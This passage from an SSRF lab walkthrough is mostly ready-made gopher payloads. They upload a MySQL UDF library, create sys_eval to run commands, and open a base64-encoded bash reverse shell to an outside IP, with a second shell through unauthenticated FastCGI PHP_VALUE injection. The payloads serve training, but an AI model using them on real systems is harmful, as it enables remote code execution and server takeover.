30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%66%30%30%30%30%30%30%30%35%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%38%30%31%30%30%30%30%30%30%30%30%30%30%30%30%35%38%30%31%30%30%30%30%30%30%30%30%30%30%30%30%34%38%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%62%30%30%30%30%30%30%66%36%66%66%66%66%36%66%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%61%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%61%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%63%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%35%30%30%30%30%30%30%30%62%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%36%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%64%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%38%30%37%30%30%30%30%30%30%30%30%30%30%30%30%36%38%30%37%30%30%30%30%30%30%30%30%30%30%30%30%65%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%35%30%30%30%30%30%30%66%66%66%66%66%66%36%66%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%38%30%39%30%30%30%30%30%30%30%30%30%30%30%30%34%38%30%39%30%30%30%30%30%30%30%30%30%30%30%30%35%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%32%30%30%30%30%30%30%66%65%66%66%66%66%36%66%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%61%30%30%39%30%30%30%30%30%30%30%30%30%30%30%30%61%30%30%39%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%31%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%63%30%30%39%30%30%30%30%30%30%30%30%30%30%30%30%63%30%30%39%30%30%30%30%30%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%62%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%61%30%30%30%30%30%30%30%30%30%30%30%30%32%30%30%61%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%61%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%35%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%61%30%30%62%30%30%30%30%30%30%30%30%30%30%30%30%61%30%30%62%30%30%30%30%30%30%30%30%30%30%30%30%31%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%62%38%30%62%30%30%30%30%30%30%30%30%30%30%30%30%62%38%30%62%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%35%62%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%64%30%30%63%30%30%30%30%30%30%30%30%30%30%30%30%64%30%30%63%30%30%30%30%30%30%30%30%30%30%30%30%61%38%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%31%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%30%30%30%30%30%30%30%37%38%31%31%30%30%30%30%30%30%30%30%30%30%30%30%37%38%31%31%30%30%30%30%30%30%30%30%30%30%30%30%30%65%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%37%30%30%30%30%30%30%30%31%30%30%30%30%30%30%33%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%36%31%31%30%30%30%30%30%30%30%30%30%30%30%30%38%36%31%31%30%30%30%30%30%30%30%30%30%30%30%30%64%64%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%66%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%34%31%32%30%30%30%30%30%30%30%30%30%30%30%30%36%34%31%32%30%30%30%30%30%30%30%30%30%30%30%30%39%63%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%37%64%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%33%30%30%30%30%30%30%30%30%30%30%30%30%31%34%30%32%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%37%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%38%31%35%32%30%30%30%30%30%30%30%30%30%30%30%31%38%31%35%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%65%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%38%31%35%32%30%30%30%30%30%30%30%30%30%30%30%32%38%31%35%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%39%35%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%33%38%31%35%32%30%30%30%30%30%30%30%30%30%30%30%33%38%31%35%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%39%61%30%30%30%30%30%30%30%36%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%31%35%32%30%30%30%30%30%30%30%30%30%30%30%34%30%31%35%30%30%30%30%30%30%30%30%30%30%30%30%39%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%34%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%61%33%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%64%30%31%36%32%30%30%30%30%30%30%30%30%30%30%30%64%30%31%36%30%30%30%30%30%30%30%30%30%30%30%30%31%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%61%38%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%65%38%31%36%32%30%30%30%30%30%30%30%30%30%30%30%65%38%31%36%30%30%30%30%30%30%30%30%30%30%30%30%39%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%62%31%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%31%37%32%30%30%30%30%30%30%30%30%30%30%30%38%30%31%37%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%62%37%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%38%31%37%32%30%30%30%30%30%30%30%30%30%30%30%38%38%31%37%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%62%63%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%38%38%31%37%30%30%30%30%30%30%30%30%30%30%30%30%39%62%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%33%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%32%33%31%38%30%30%30%30%30%30%30%30%30%30%30%30%63%35%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%31%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%20%49%4e%54%4f%20%44%55%4d%50%46%49%4c%45%20%27%2f%75%73%72%2f%6c%69%62%2f%6d%79%73%71%6c%2f%70%6c%75%67%69%6e%2f%75%64%66%2e%73%6f%27%01%00%00%00%01
```

放入到 BP 中请求的话记得需要二次 URL 编码；


创建自定义函数：

```
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so';
```

gopher payload

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%39%00%00%00%03%43%52%45%41%54%45%20%46%55%4e%43%54%49%4f%4e%20%73%79%73%5f%65%76%61%6c%20%52%45%54%55%52%4e%53%20%53%54%52%49%4e%47%20%53%4f%4e%41%4d%45%20%27%75%64%66%2e%73%6f%27%3b%01%00%00%00%01
```


导入成功后查看一下 mysql 函数里面是否新增了 sys_eval：

```
select * from mysql.func;
```

删除自定义函数

```
drop function sys_eval;
```

通过创建的这个函数来执行系统命令

```
select sys_eval('whoami');
```

gopher payload

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%1b%00%00%00%03%73%65%6c%65%63%74%20%73%79%73%5f%65%76%61%6c%28%27%77%68%6f%61%6d%69%27%29%3b%01%00%00%00%01
```


反弹shell

```
select sys_eval('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjY1LjI1NC8yMzMzIDA+JjE=|base64 -d|bash -i');
```

Gopher payload

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%68%00%00%00%03%73%65%6c%65%63%74%20%73%79%73%5f%65%76%61%6c%28%27%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4f%54%49%75%4d%54%59%34%4c%6a%59%31%4c%6a%49%31%4e%43%38%79%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%3d%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68%20%2d%69%27%29%3b%01%00%00%00%01
```


得到回弹的shell


### flag9_1


# 172.150.23.30 - FastCGI 未授权

生产gopher payload


```
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH135%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%87%04%00%3C%3Fphp%20system%28%27echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjY1LjI1NC8yMzMzIDA%2BJjE%3D%7Cbase64%20-d%7Cbash%20-i%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

放入到 BP 中请求的话记得需要二次 URL 编码


## flag10


# 参考文献

- [Github：sqlsec/ssrf-vuls](https://github.com/sqlsec/ssrf-vuls)
- [Github：LS95/gopher-redis-aut](https://github.com/LS95/gopher-redis-auth)